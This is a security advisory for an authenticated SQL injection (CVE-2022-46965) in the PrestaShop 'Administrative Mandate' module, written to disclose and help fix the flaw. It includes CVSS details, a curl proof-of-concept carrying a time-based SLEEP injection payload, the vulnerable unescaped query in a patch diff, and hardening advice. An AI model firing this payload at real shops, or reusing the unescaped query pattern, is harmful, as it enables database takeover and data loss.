 ```yaml
---
layout: post
title: "[CVE-2022-46965] Improper neutralization of an SQL parameter in Administrative Mandate module for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,totadministrativemandate"
severity: "high (8.3)"
---
```


In the module "Administrative Mandate" (totadministrativemandate), an authenticated user can perform SQL injection in affected versions.

## Summary

* **CVE ID**: [CVE-2022-46965](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-46965)
* **Published at**: 2023-01-28
* **Advisory source**: [202 ecommerce](https://github.com/202ecommerce/security-advisories/security/advisories/GHSA-hg7m-23j3-rf56)
* **Platform**: PrestaShop
* **Product**: totadministrativemandate
* **Impacted release**: >= 1.2.1, < 1.7.2
* **Product author**: 202 ecommerce
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.3)

## Description

From version 1.2.1 published on 12 October 2012 to 1.7.2 published on 3 December 2020, a sensitive SQL calls in class `PDFMandate::mandatePDF()` (or `pdftot::MandatePDF()` for older version before 1.5) can be executed with a trivial http call and exploited to forge a bind SQL injection.


## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: low

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L

## Possible malicious usage

* Obtain admin access
* Remove data on the associated PrestaShop


## Proof of concept


```bash
curl -v --cookie-jar cookie.txt 'https://domain.tld/authentification?submitLogin=1&emailXXXX&password=YYY && \
curl -v --cookie cookie.txt 'https://domain.tld/modules/totadministrativemandate/pdftot.php?id_order=1%27%3BSELECT%20SLEEP%2825%29%23'
```

## Patch from 1.6.2

```diff
--- 1.6.2/totadministrativemandate/pdfmandate15.php
+++ 1.7.2/totadministrativemandate/pdfmandate15.php
@@ -1166,15 +1166,15 @@ class PDFMandate extends FPDF
         $mode = 'D';
         $slip = false;
         $delivery = false;
        $reference = Tools::getValue('id_order');

        if (version_compare(_PS_VERSION_, '1.5', '>')) {
-            $SQL = 'SELECT `id_order` FROM `'._DB_PREFIX_."orders` WHERE `reference` = '".$reference."' ";
+            $SQL = 'SELECT `id_order` FROM `'._DB_PREFIX_."orders` WHERE `reference` = '".pSQL($reference)."' ";
            $id_order = Db::getInstance()->getValue($SQL);
        } else {
            $id_order = Tools::getValue('id_order');
        }
        $order = new Order($id_order);
 
        if (
            !Validate::isLoadedObject($order)

--- 1.6.2/totadministrativemandate/pdfmandate16.php
+++ 1.7.2/totadministrativemandate/pdfmandate16.php
@@ -345,15 +345,15 @@ class PDFMandate extends TCPDF
         $mode = 'D';
         $slip = false;
         $delivery = false;
        $reference = Tools::getValue('id_order');

        if (version_compare(_PS_VERSION_, '1.5', '>')) {
-            $SQL = 'SELECT `id_order` FROM `'._DB_PREFIX_."orders` WHERE `reference` = '".$reference."' ";
+            $SQL = 'SELECT `id_order` FROM `'._DB_PREFIX_."orders` WHERE `reference` = '".pSQL($reference)."' ";
            $id_order = Db::getInstance()->getValue($SQL);
        } else {
            $id_order = Tools::getValue('id_order');
        }
        $order = new Order($id_order);
 
        if (
            !Validate::isLoadedObject($order)
```

202 ecommerce thanks TouchWeb for its courtesy and its help after the vulnerability disclosure.

## Other recommandations

* It’s recommended to upgrade the module up to 1.7.2.
* Upgrade PrestaShop to the latest version to disable multiquery executions (separated by “;”)
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Links

* [202 ecommerce security advisory post](https://github.com/202ecommerce/security-advisories/security/advisories/GHSA-hg7m-23j3-rf56)
* [PrestaShop addons product page](https://addons.prestashop.com/en/bank-transfer-payment/6297-administrative-mandate.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2022-46965)
